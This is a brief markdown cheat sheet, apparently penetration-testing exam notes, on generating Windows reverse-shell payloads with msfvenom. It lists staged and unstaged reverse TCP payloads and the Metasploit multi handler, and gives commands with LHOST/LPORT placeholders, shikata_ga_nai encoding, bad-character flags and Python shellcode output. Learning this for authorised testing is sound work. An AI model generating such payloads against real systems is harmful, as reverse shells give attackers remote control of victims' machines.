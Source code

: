 # Payloads



msfvenom -p \[payload\] -f \[format\] LHOST=\[your ip\] LPORT=\[your listener port\]

* windows/shell\_reverse\_tcp \(unstaged\)
* windows/shell/reverse\_tcp \(staged\)

Use Metasploit multi handler for staged \(allowed on exam\)

-e x86\shikata\_ga\_nai -b allows you to set bad characters --list payloads

msfvenom -a x86 --platform windows -p windows/shell\_reverse\_tcp -f python &gt; shellcode.txt

